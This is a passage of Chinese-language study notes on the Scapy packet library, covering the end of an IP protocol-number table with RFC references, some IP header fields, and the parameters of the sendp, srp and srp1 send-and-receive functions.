        | 42      | 0x2A      | SDRP                                                                                                        | <a href="/w/index.php?title=Source_Demand_Routing_Protocol&amp;action=edit&amp;redlink=1" class="new" title="Source Demand Routing Protocol (页面不存在) ">Source Demand Routing Protocol</a>                                                                                                                                                                                                                                                                                                                                                                | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc1940">RFC 1940</a>                                                                                                                 |
        | 43      | 0x2B      | IPv6-Route                                                                                                  | <a href="/wiki/IPv6" title="IPv6">IPv6</a>路由拓展头                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc2460">RFC 2460</a>                                                                                                                 |
        | 44      | 0x2C      | IPv6-Frag                                                                                                   | <a href="/wiki/IPv6" title="IPv6">IPv6</a>分片扩展头                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc2460">RFC 2460</a>                                                                                                                 |
        | 45      | 0x2D      | IDRP                                                                                                        | <a href="/w/index.php?title=Inter-Domain_Routing_Protocol&amp;action=edit&amp;redlink=1" class="new" title="Inter-Domain Routing Protocol (页面不存在) ">Inter-Domain Routing Protocol</a>                                                                                                                                                                                                                                                                                                                                                                   |
        | 46      | 0x2E      | RSVP                                                                                                        | <a href="/wiki/Resource_Reservation_Protocol" class="mw-redirect" title="Resource Reservation Protocol">Resource Reservation Protocol</a>                                                                                                                                                                                                                                                                                                                                                                                                                    | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc2205">RFC 2205</a>                                                                                                                 |
        | 47      | 0x2F      | GRE                                                                                                         | <a href="/wiki/%E9%80%9A%E7%94%A8%E8%B7%AF%E7%94%B1%E5%B0%81%E8%A3%85" title="通用路由封装">通用路由封装 (GRE) </a>                                                                                                                                                                                                                                                                                                                                                                                                                                          | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc2784">RFC 2784</a>, <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc2890">RFC 2890</a>    |
        | 48      | 0x30      | MHRP                                                                                                        | <a href="/w/index.php?title=Mobile_Host_Routing_Protocol&amp;action=edit&amp;redlink=1" class="new" title="Mobile Host Routing Protocol (页面不存在) ">Mobile Host Routing Protocol</a>                                                                                                                                                                                                                                                                                                                                                                      |
        | 49      | 0x31      | BNA                                                                                                         | BNA                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
        | 50      | 0x32      | ESP                                                                                                         | <a href="/wiki/IPsec" title="IPsec">封装安全协议 (ESP) </a>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc4303">RFC 4303</a>                                                                                                                 |
        | 51      | 0x33      | AH                                                                                                          | <a href="/wiki/IPsec" title="IPsec">认证头协议 (AH) </a>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc4302">RFC 4302</a>                                                                                                                 |
        | 52      | 0x34      | I-NLSP                                                                                                      | <a href="/w/index.php?title=Integrated_Net_Layer_Security_Protocol&amp;action=edit&amp;redlink=1" class="new" title="Integrated Net Layer Security Protocol (页面不存在) ">Integrated Net Layer Security Protocol</a>                                                                                                                                                                                                                                                                                                                                        | TUBA                                                                                                                                                                                                                        |
        | 53      | 0x35      | SWIPE                                                                                                       | <a href="/w/index.php?title=SwIPe_(protocol)&amp;action=edit&amp;redlink=1" class="new" title="SwIPe (protocol) (页面不存在) ">SwIPe</a>                                                                                                                                                                                                                                                                                                                                                                                                                     | IP with Encryption                                                                                                                                                                                                          |
        | 54      | 0x36      | NARP                                                                                                        | <a href="/w/index.php?title=NBMA_Address_Resolution_Protocol&amp;action=edit&amp;redlink=1" class="new" title="NBMA Address Resolution Protocol (页面不存在) ">NBMA Address Resolution Protocol</a>                                                                                                                                                                                                                                                                                                                                                          | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc1735">RFC 1735</a>                                                                                                                 |
        | 55      | 0x37      | MOBILE                                                                                                      | <a href="/wiki/Mobile_IP" class="mw-redirect" title="Mobile IP">IP Mobility</a>  (Min Encap)                                                                                                                                                                                                                                                                                                                                                                                                                                                                 | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc2004">RFC 2004</a>                                                                                                                 |
        | 56      | 0x38      | TLSP                                                                                                        | <a href="/w/index.php?title=Transport_Layer_Security_Protocol&amp;action=edit&amp;redlink=1" class="new" title="Transport Layer Security Protocol (页面不存在) ">Transport Layer Security Protocol</a> (using Kryptonet key management)                                                                                                                                                                                                                                                                                                                      |
        | 57      | 0x39      | SKIP                                                                                                        | <a href="/w/index.php?title=Simple_Key-Management_for_Internet_Protocol&amp;action=edit&amp;redlink=1" class="new" title="Simple Key-Management for Internet Protocol (页面不存在) ">Simple Key-Management for Internet Protocol</a>                                                                                                                                                                                                                                                                                                                         | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc2356">RFC 2356</a>                                                                                                                 |
        | 58      | 0x3A      | IPv6-ICMP                                                                                                   | <a href="/wiki/ICMPv6" class="mw-redirect" title="ICMPv6">互联网控制消息协议第六版 (ICMPv6) </a>                                                                                                                                                                                                                                                                                                                                                                                                                                                             | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc4443">RFC 4443</a>, <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc4884">RFC 4884</a>    |
        | 59      | 0x3B      | IPv6-NoNxt                                                                                                  | <a href="/wiki/IPv6" title="IPv6">IPv6</a>无负载头                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc2460">RFC 2460</a>                                                                                                                 |
        | 60      | 0x3C      | IPv6-Opts                                                                                                   | <a href="/wiki/IPv6" title="IPv6">IPv6</a>目标选项扩展头                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc2460">RFC 2460</a>                                                                                                                 |
        | 61      | 0x3D      |                                                                                                             | Any host internal protocol                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
        | 62      | 0x3E      | CFTP                                                                                                        | CFTP                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
        | 63      | 0x3F      |                                                                                                             | Any local network                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
        | 64      | 0x40      | SAT-EXPAK                                                                                                   | SATNET and Backroom EXPAK                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
        | 65      | 0x41      | KRYPTOLAN                                                                                                   | Kryptolan                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
        | 66      | 0x42      | RVD                                                                                                         | MIT <a href="/w/index.php?title=Remote_Virtual_Disk_Protocol&amp;action=edit&amp;redlink=1" class="new" title="Remote Virtual Disk Protocol (页面不存在) ">Remote Virtual Disk Protocol</a>                                                                                                                                                                                                                                                                                                                                                                  |
        | 67      | 0x43      | IPPC                                                                                                        | <a href="/w/index.php?title=Internet_Pluribus_Packet_Core&amp;action=edit&amp;redlink=1" class="new" title="Internet Pluribus Packet Core (页面不存在) ">Internet Pluribus Packet Core</a>                                                                                                                                                                                                                                                                                                                                                                   |
        | 68      | 0x44      |                                                                                                             | Any distributed file system                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
        | 69      | 0x45      | SAT-MON                                                                                                     | SATNET Monitoring                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
        | 70      | 0x46      | VISA                                                                                                        | VISA协议                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
        | 71      | 0x47      | IPCV                                                                                                        | Internet Packet Core Utility                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
        | 72      | 0x48      | CPNX                                                                                                        | Computer Protocol Network Executive                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
        | 73      | 0x49      | CPHB                                                                                                        | <a href="/w/index.php?title=Computer_Protocol_Heart_Beat&amp;action=edit&amp;redlink=1" class="new" title="Computer Protocol Heart Beat (页面不存在) ">Computer Protocol Heart Beat</a>                                                                                                                                                                                                                                                                                                                                                                      |
        | 74      | 0x4A      | WSN                                                                                                         | <a href="/w/index.php?title=Wang_Span_Network&amp;action=edit&amp;redlink=1" class="new" title="Wang Span Network (页面不存在) ">Wang Span Network</a>                                                                                                                                                                                                                                                                                                                                                                                                       |
        | 75      | 0x4B      | PVP                                                                                                         | <a href="/w/index.php?title=Packet_Video_Protocol&amp;action=edit&amp;redlink=1" class="new" title="Packet Video Protocol (页面不存在) ">Packet Video Protocol</a>                                                                                                                                                                                                                                                                                                                                                                                           |
        | 76      | 0x4C      | BR-SAT-MON                                                                                                  | Backroom SATNET Monitoring                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
        | 77      | 0x4D      | SUN-ND                                                                                                      | SUN ND PROTOCOL-Temporary                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
        | 78      | 0x4E      | WB-MON                                                                                                      | WIDEBAND Monitoring                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
        | 79      | 0x4F      | WB-EXPAK                                                                                                    | WIDEBAND EXPAK                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
        | 80      | 0x50      | ISO-IP                                                                                                      | 国际标准化组织互联网协议                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
        | 81      | 0x51      | VMTP                                                                                                        | <a href="/w/index.php?title=V_(operating_system)&amp;action=edit&amp;redlink=1" class="new" title="V (operating system) (页面不存在) ">Versatile Message Transaction Protocol</a>                                                                                                                                                                                                                                                                                                                                                                            | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc1045">RFC 1045</a>                                                                                                                 |
        | 82      | 0x52      | SECURE-VMTP                                                                                                 | Secure Versatile Message Transaction Protocol                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc1045">RFC 1045</a>                                                                                                                 |
        | 83      | 0x53      | VINES                                                                                                       | VINES                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
        | 84      | 0x54      | TTP                                                                                                         | TTP                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
        | 84      | 0x54      | IPTM                                                                                                        | <a href="/w/index.php?title=Internet_Protocol_Traffic_Manager&amp;action=edit&amp;redlink=1" class="new" title="Internet Protocol Traffic Manager (页面不存在) ">Internet Protocol Traffic Manager</a>                                                                                                                                                                                                                                                                                                                                                       |
        | 85      | 0x55      | NSFNET-IGP                                                                                                  | NSFNET-IGP                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
        | 86      | 0x56      | DGP                                                                                                         | <a href="/w/index.php?title=Dissimilar_Gateway_Protocol&amp;action=edit&amp;redlink=1" class="new" title="Dissimilar Gateway Protocol (页面不存在) ">Dissimilar Gateway Protocol</a>                                                                                                                                                                                                                                                                                                                                                                         |
        | 87      | 0x57      | TCF                                                                                                         | TCF                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
        | 88      | 0x58      | EIGRP                                                                                                       | <a href="/wiki/%E5%8A%A0%E5%BC%B7%E5%9E%8B%E9%96%98%E9%81%93%E9%96%93%E9%81%B8%E5%BE%91%E5%8D%94%E5%AE%9A" title="加强型网关间选径协议">增强型内部网关路由协议 (EIGRP) </a>                                                                                                                                                                                                                                                                                                                                                                                  |
        | 89      | 0x59      | OSPF                                                                                                        | <a href="/wiki/%E5%BC%80%E6%94%BE%E5%BC%8F%E6%9C%80%E7%9F%AD%E8%B7%AF%E5%BE%84%E4%BC%98%E5%85%88" title="开放式最短路径优先">开放式最短路径优先 (OSPF) </a>                                                                                                                                                                                                                                                                                                                                                                                                  | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc1583">RFC 1583</a>                                                                                                                 |
        | 90      | 0x5A      | Sprite-RPC                                                                                                  | Sprite RPC Protocol                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
        | 91      | 0x5B      | LARP                                                                                                        | <a href="/w/index.php?title=Locus_Address_Resolution_Protocol&amp;action=edit&amp;redlink=1" class="new" title="Locus Address Resolution Protocol (页面不存在) ">Locus Address Resolution Protocol</a>                                                                                                                                                                                                                                                                                                                                                       |
        | 92      | 0x5C      | MTP                                                                                                         | <a href="/w/index.php?title=Multicast_Transport_Protocol&amp;action=edit&amp;redlink=1" class="new" title="Multicast Transport Protocol (页面不存在) ">Multicast Transport Protocol</a>                                                                                                                                                                                                                                                                                                                                                                      |
        | 93      | 0x5D      | AX.25                                                                                                       | <a href="/w/index.php?title=AX.25&amp;action=edit&amp;redlink=1" class="new" title="AX.25 (页面不存在) ">AX.25</a>                                                                                                                                                                                                                                                                                                                                                                                                                                           |
        | 94      | 0x5E      | IPIP                                                                                                        | <a href="/wiki/IP_in_IP" title="IP in IP">IP-within-IP 封装协议</a>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc2003">RFC 2003</a>                                                                                                                 |
        | 95      | 0x5F      | MICP                                                                                                        | <a href="/w/index.php?title=Mobile_Internetworking_Control_Protocol&amp;action=edit&amp;redlink=1" class="new" title="Mobile Internetworking Control Protocol (页面不存在) ">Mobile Internetworking Control Protocol</a>                                                                                                                                                                                                                                                                                                                                     |
        | 96      | 0x60      | SCC-SP                                                                                                      | Semaphore Communications Sec. Pro                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
        | 97      | 0x61      | ETHERIP                                                                                                     | Ethernet-within-IP 封装协议                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc3378">RFC 3378</a>                                                                                                                 |
        | 98      | 0x62      | ENCAP                                                                                                       | Encapsulation Header                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc1241">RFC 1241</a>                                                                                                                 |
        | 99      | 0x63      |                                                                                                             | Any private encryption scheme                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
        | 100     | 0x64      | GMTP                                                                                                        | GMTP                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
        | 101     | 0x65      | IFMP                                                                                                        | <a href="/w/index.php?title=Ipsilon_Flow_Management_Protocol&amp;action=edit&amp;redlink=1" class="new" title="Ipsilon Flow Management Protocol (页面不存在) ">Ipsilon Flow Management Protocol</a>                                                                                                                                                                                                                                                                                                                                                          |
        | 102     | 0x66      | PNNI                                                                                                        | PNNI over IP                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
        | 103     | 0x67      | PIM                                                                                                         | <a href="/w/index.php?title=Protocol_Independent_Multicast&amp;action=edit&amp;redlink=1" class="new" title="Protocol Independent Multicast (页面不存在) ">Protocol Independent Multicast</a>                                                                                                                                                                                                                                                                                                                                                                |
        | 104     | 0x68      | ARIS                                                                                                        | IBM's ARIS (Aggregate Route IP Switching) Protocol                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
        | 105     | 0x69      | SCPS                                                                                                        | <a rel="nofollow" class="external text" href="http://scps.org">SCPS (Space Communications Protocol Standards)</a>                                                                                                                                                                                                                                                                                                                                                                                                                                            | SCPS-TP<sup id="cite_ref-1" class="reference"><a href="#cite_note-1">[1]</a></sup>                                                                                                                                          |
        | 106     | 0x6A      | <a href="/wiki/QNX" title="QNX">QNX</a>                                                                     | QNX                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
        | 107     | 0x6B      | A/N                                                                                                         | Active Networks                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
        | 108     | 0x6C      | IPComp                                                                                                      | <a href="/w/index.php?title=IP_Payload_Compression_Protocol&amp;action=edit&amp;redlink=1" class="new" title="IP Payload Compression Protocol (页面不存在) ">IP Payload Compression Protocol</a>                                                                                                                                                                                                                                                                                                                                                             | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc3173">RFC 3173</a>                                                                                                                 |
        | 109     | 0x6D      | SNP                                                                                                         | <a href="/w/index.php?title=Sitara_Networks_Protocol&amp;action=edit&amp;redlink=1" class="new" title="Sitara Networks Protocol (页面不存在) ">Sitara Networks Protocol</a>                                                                                                                                                                                                                                                                                                                                                                                  |
        | 110     | 0x6E      | Compaq-Peer                                                                                                 | <a href="/w/index.php?title=Compaq_Peer_Protocol&amp;action=edit&amp;redlink=1" class="new" title="Compaq Peer Protocol (页面不存在) ">Compaq Peer Protocol</a>                                                                                                                                                                                                                                                                                                                                                                                              |
        | 111     | 0x6F      | IPX-in-IP                                                                                                   | <a href="/w/index.php?title=IPX_in_IP&amp;action=edit&amp;redlink=1" class="new" title="IPX in IP (页面不存在) ">IPX in IP</a>                                                                                                                                                                                                                                                                                                                                                                                                                               |
        | 112     | 0x70      | VRRP                                                                                                        | <a href="/w/index.php?title=Virtual_Router_Redundancy_Protocol&amp;action=edit&amp;redlink=1" class="new" title="Virtual Router Redundancy Protocol (页面不存在) ">Virtual Router Redundancy Protocol</a>, <a href="/w/index.php?title=Common_Address_Redundancy_Protocol&amp;action=edit&amp;redlink=1" class="new" title="Common Address Redundancy Protocol (页面不存在) ">Common Address Redundancy Protocol</a>  (没在<a href="/wiki/Internet_Assigned_Numbers_Authority" class="mw-redirect" title="Internet Assigned Numbers Authority">IANA</a>注册) | VRRP:<a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc3768">RFC 3768</a>                                                                                                            |
        | 113     | 0x71      | PGM                                                                                                         | <a href="/wiki/Pragmatic_General_Multicast" class="mw-redirect" title="Pragmatic General Multicast">PGM Reliable Transport Protocol</a>                                                                                                                                                                                                                                                                                                                                                                                                                      | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc3208">RFC 3208</a>                                                                                                                 |
        | 114     | 0x72      |                                                                                                             | Any 0-hop protocol                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
        | 115     | 0x73      | L2TP                                                                                                        | <a href="/w/index.php?title=L2TPv3&amp;action=edit&amp;redlink=1" class="new" title="L2TPv3 (页面不存在) ">Layer Two Tunneling Protocol Version 3</a>                                                                                                                                                                                                                                                                                                                                                                                                        | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc3931">RFC 3931</a>                                                                                                                 |
        | 116     | 0x74      | DDX                                                                                                         | D-II Data Exchange (DDX)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
        | 117     | 0x75      | IATP                                                                                                        | <a href="/w/index.php?title=Interactive_Agent_Transfer_Protocol&amp;action=edit&amp;redlink=1" class="new" title="Interactive Agent Transfer Protocol (页面不存在) ">Interactive Agent Transfer Protocol</a>                                                                                                                                                                                                                                                                                                                                                 |
        | 118     | 0x76      | STP                                                                                                         | <a href="/w/index.php?title=Schedule_Transfer_Protocol&amp;action=edit&amp;redlink=1" class="new" title="Schedule Transfer Protocol (页面不存在) ">Schedule Transfer Protocol</a>                                                                                                                                                                                                                                                                                                                                                                            |
        | 119     | 0x77      | SRP                                                                                                         | <a href="/w/index.php?title=SpectraLink_Radio_Protocol&amp;action=edit&amp;redlink=1" class="new" title="SpectraLink Radio Protocol (页面不存在) ">SpectraLink Radio Protocol</a>                                                                                                                                                                                                                                                                                                                                                                            |
        | 120     | 0x78      | UTI                                                                                                         | Universal Transport Interface Protocol                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
        | 121     | 0x79      | SMP                                                                                                         | <a href="/w/index.php?title=Simple_Message_Protocol&amp;action=edit&amp;redlink=1" class="new" title="Simple Message Protocol (页面不存在) ">Simple Message Protocol</a>                                                                                                                                                                                                                                                                                                                                                                                     |
        | 122     | 0x7A      | SM                                                                                                          | Simple Multicast Protocol                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    | <a rel="nofollow" class="external text" href="http://tools.ietf.org/html/draft-perlman-simple-multicast-03">draft-perlman-simple-multicast-03</a>                                                                           |
        | 123     | 0x7B      | PTP                                                                                                         | <a href="/w/index.php?title=Performance_Transparency_Protocol&amp;action=edit&amp;redlink=1" class="new" title="Performance Transparency Protocol (页面不存在) ">Performance Transparency Protocol</a>                                                                                                                                                                                                                                                                                                                                                       |
        | 124     | 0x7C      | IS-IS over IPv4                                                                                             | <a href="/wiki/IS-IS" class="mw-redirect" title="IS-IS">Intermediate System to Intermediate System (IS-IS) Protocol</a> over <a href="/wiki/IPv4" title="IPv4">IPv4</a>                                                                                                                                                                                                                                                                                                                                                                                      | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc1142">RFC 1142</a> and <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc1195">RFC 1195</a> |
        | 125     | 0x7D      | FIRE                                                                                                        | Flexible Intra-AS Routing Environment                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
        | 126     | 0x7E      | CRTP                                                                                                        | <a href="/w/index.php?title=Combat_Radio_Transport_Protocol&amp;action=edit&amp;redlink=1" class="new" title="Combat Radio Transport Protocol (页面不存在) ">Combat Radio Transport Protocol</a>                                                                                                                                                                                                                                                                                                                                                             |
        | 127     | 0x7F      | CRUDP                                                                                                       | <a href="/w/index.php?title=Combat_Radio_User_Datagram&amp;action=edit&amp;redlink=1" class="new" title="Combat Radio User Datagram (页面不存在) ">Combat Radio User Datagram</a>                                                                                                                                                                                                                                                                                                                                                                            |
        | 128     | 0x80      | SSCOPMCE                                                                                                    | Service-Specific Connection-Oriented Protocol in a Multilink and Connectionless Environment                                                                                                                                                                                                                                                                                                                                                                                                                                                                  | <a rel="nofollow" class="external text" href="http://www.itu.int/rec/T-REC-Q.2111-199912-I">ITU-T Q.2111 (1999)</a>                                                                                                         |
        | 129     | 0x81      | IPLT                                                                                                        |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
        | 130     | 0x82      | SPS                                                                                                         | <a href="/w/index.php?title=Secure_Packet_Shield&amp;action=edit&amp;redlink=1" class="new" title="Secure Packet Shield (页面不存在) ">Secure Packet Shield</a>                                                                                                                                                                                                                                                                                                                                                                                              |
        | 131     | 0x83      | PIPE                                                                                                        | Private IP Encapsulation within IP                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           | <a rel="nofollow" class="external text" href="http://www.watersprings.org/pub/id/draft-petri-mobileip-pipe-00.txt">Expired I-D draft-petri-mobileip-pipe-00.txt</a>                                                         |
        | 132     | 0x84      | SCTP                                                                                                        | <a href="/wiki/Stream_Control_Transmission_Protocol" class="mw-redirect" title="Stream Control Transmission Protocol">Stream Control Transmission Protocol</a>                                                                                                                                                                                                                                                                                                                                                                                               |
        | 133     | 0x85      | FC                                                                                                          | <a href="/w/index.php?title=Fibre_Channel&amp;action=edit&amp;redlink=1" class="new" title="Fibre Channel (页面不存在) ">Fibre Channel</a>                                                                                                                                                                                                                                                                                                                                                                                                                   |
        | 134     | 0x86      | RSVP-E2E-IGNORE                                                                                             | Reservation Protocol (RSVP) End-to-End Ignore                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc3175">RFC 3175</a>                                                                                                                 |
        | 135     | 0x87      | Mobility Header                                                                                             | IPv6移动IP扩展头                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc6275">RFC 6275</a>                                                                                                                 |
        | 136     | 0x88      | UDPLite                                                                                                     | <a href="/w/index.php?title=UDP_Lite&amp;action=edit&amp;redlink=1" class="new" title="UDP Lite (页面不存在) ">Lightweight User Datagram Protocol</a>                                                                                                                                                                                                                                                                                                                                                                                                        | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc3828">RFC 3828</a>                                                                                                                 |
        | 137     | 0x89      | MPLS-in-IP                                                                                                  | <a href="/w/index.php?title=Multiprotocol_Label_Switching&amp;action=edit&amp;redlink=1" class="new" title="Multiprotocol Label Switching (页面不存在) ">Multiprotocol Label Switching</a> Encapsulated in IP                                                                                                                                                                                                                                                                                                                                                | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc4023">RFC 4023</a>                                                                                                                 |
        | 138     | 0x8A      | manet                                                                                                       | <a href="/w/index.php?title=Mobile_ad_hoc_network&amp;action=edit&amp;redlink=1" class="new" title="Mobile ad hoc network (页面不存在) ">MANET</a> Protocols                                                                                                                                                                                                                                                                                                                                                                                                 | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc5498">RFC 5498</a>                                                                                                                 |
        | 139     | 0x8B      | HIP                                                                                                         | <a href="/w/index.php?title=Host_Identity_Protocol&amp;action=edit&amp;redlink=1" class="new" title="Host Identity Protocol (页面不存在) ">Host Identity Protocol</a>                                                                                                                                                                                                                                                                                                                                                                                        | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc5201">RFC 5201</a>                                                                                                                 |
        | 140     | 0x8C      | Shim6                                                                                                       | <a href="/w/index.php?title=Site_Multihoming_by_IPv6_Intermediation&amp;action=edit&amp;redlink=1" class="new" title="Site Multihoming by IPv6 Intermediation (页面不存在) ">Site Multihoming by IPv6 Intermediation</a>                                                                                                                                                                                                                                                                                                                                     | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc5533">RFC 5533</a>                                                                                                                 |
        | 141     | 0x8D      | WESP                                                                                                        | <a href="/w/index.php?title=Wrapped_Encapsulating_Security_Payload&amp;action=edit&amp;redlink=1" class="new" title="Wrapped Encapsulating Security Payload (页面不存在) ">Wrapped Encapsulating Security Payload</a>                                                                                                                                                                                                                                                                                                                                        | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc5840">RFC 5840</a>                                                                                                                 |
        | 142     | 0x8E      | ROHC                                                                                                        | <a href="/w/index.php?title=Robust_Header_Compression&amp;action=edit&amp;redlink=1" class="new" title="Robust Header Compression (页面不存在) ">Robust Header Compression</a>                                                                                                                                                                                                                                                                                                                                                                               | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc5856">RFC 5856</a>                                                                                                                 |
        | 143-252 | 0x8F-0xFC |
        | 253-254 | 0xFD-0xFE | <a class="external mw-magiclink-rfc" rel="nofollow" href="https://tools.ietf.org/html/rfc3692">RFC 3692</a> |
        | 255     | 0xFF      |
        </details>
- chksum
    - Header Checksum (16 bits)
    > used for error-checking of the header
- src
    - Source IP Address (32 bits)
- dst
    - Destination IP Address (32 bits)
- options
</details>

### 9.2.函数
- `sendp()`: 发送数据
    <details>

    - x: 发送的数据包
    - return_packets: 是否返回发送的数据包
    - count: 发送数量
    - inter: 发包时间间隔(s)
    - loop: True时循环发送, 不可与count同用
    - verbose: False时���返回"Sent 1 packets."
    - realtime: 在发送下一个包之前, 请检查当前是否已被发送
    - socket: 要使用的套接字(默认为conf.L3socket(kargs))
    - iface: 网络接口
    - monitor: monitor模式下发送(linux下此参数不可用)
    </details>
- `srp()`: 发送数据, 并接收
    <details>

    - 返回: 响应数据包(发送包, 接收包)列表, 未响应数据包列表
    - pks: SuperSocket实例用于发送接收包
    - pkt: 用于发送的包
    - rcv_pks: 如果设置, 将代替pks来接收数据包. 数据包仍将通过pks发送
    - nofilter: 设为1以避免使用BPF过滤器
    - retry: 如果为正, 重新发送未应答的包retry次. 如果为负, 当再也没有包被应答时, retry次重新发送未应答的包.
    - timeout: 最后一个数据包发送后需要等待多长时间
    - verbose: 0, 1, 2 默认为2
    - multi: 接受同一请求的多个响应
    - store_unanswered: 是否存储未应答的数据包. 将其设置为False将加快速度, 并且将返回None作为unans列表
    - process: 如果指定, 则只存储process(pkt)的结果, 该函数应该遵循以下格式:`lambda sent, received: (func(sent), func2(received))`如果数据包没有得到回复, 则接收为空. 如果store_unanswered为False, 则不会对未应答的调用该函数. 
    - prebuild: 在开始发送数据包之前预先构建它们. 当生成器作为包传递时自动启用
    </details>
- `srp1()`: 发送数据, 并接收, 只返回一条数据包
    <details>

    - 返回: 响应数据包(发送包, 接收包)列表, 未响应数据包列表
    - pks: SuperSocket实例用于发送接收包
    - pkt: 用于发送的包
    - rcv_pks: 如果设置, 将代替pks来接收数据包. 数据包仍将通过pks发送
    - nofilter: 设为1以避免使用BPF过滤器
    - retry: 如果为正, 重新发送未应答的包retry次. 如果为负, 当再也没有包被应答时, retry次重新发送未应答的包.
    - timeout: 最后一个数据包发送后需要等待多长时间
    - verbose: 0, 1, 2 默认为2
    - multi: 接受同一请求的多个响应
    - store_unanswered: 是否存储未应答的数据包. 将其设置为False将加快速度, 并且将返回None作为unans列表
    - process: 如果指定, 则只存储process(pkt)的结果, 该函数应该遵循以下格式:`lambda sent, received: (func(sent), func2(received))`如果数据包没有得到回复, 则接收为空. 如果store_unanswered为False, 则不会对未应答的调用该函数. 
    - prebuild: 在开始发送数据包之前预先构建它们. 当生成器作为包传递时自动启用
    </details>

## 十.传输层
